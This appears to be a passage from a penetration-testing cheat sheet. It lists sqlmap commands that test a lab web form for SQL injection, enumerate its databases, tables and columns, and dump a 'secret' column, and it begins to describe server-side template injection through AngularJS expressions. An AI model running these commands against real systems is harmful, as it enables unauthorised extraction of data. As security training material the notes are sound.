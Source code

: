 ### 17.1.1	TEST FOR INJECTION

```
sqlmap -u "http://10.102.9.174/DBSearch" --data='name=test3&age=test3&location=test3&type=insurer' --cookie='<COOKIE>' -p '<PARAMETER>'
```

### 17.1.2	LIST ALL DATABASES

```
sqlmap -u "http://10.102.9.174/DBSearch" --data='name=test3&age=test3&location=test3&type=insurer' --dbs
```

### 17.1.3	LIST ALL TABLES IN DATABASES

```
sqlmap -u "http://10.102.9.174/DBSearch" --data='name=test3&age=test3&location=test3&type=insurer' -D iml --tables
```

### 17.1.4	LIST ALL COLUMNS IN TABLE

```
sqlmap -u "http://10.102.9.174/DBSearch" --data='name=test3&age=test3&location=test3&type=insurer' -D iml -T hidden_table --columns
```

### 17.1.5	DUMP SELECTED COLUMNS

```
sqlmap -u "http://10.102.9.174/DBSearch" --data='name=test3&age=test3&location=test3&type=insurer' -D iml -T hidden_table -C secret --dump
```


# 18	Server-side Template Injection (SSTI)

## 18.1	DESCRIPTION

- Attacker uses native template syntax to inject a payload into a web template, which is then executed server-side and displayed to end user.
- Unlike most reflected or stored XSS vulnerabilities, a template injection vulnerability can result in code being run on the server, rather than the user's client.
- AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). [27]
- When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces.
- This technique is useful when angle brackets are being encoded.

## 18.2	IDENTIFYING
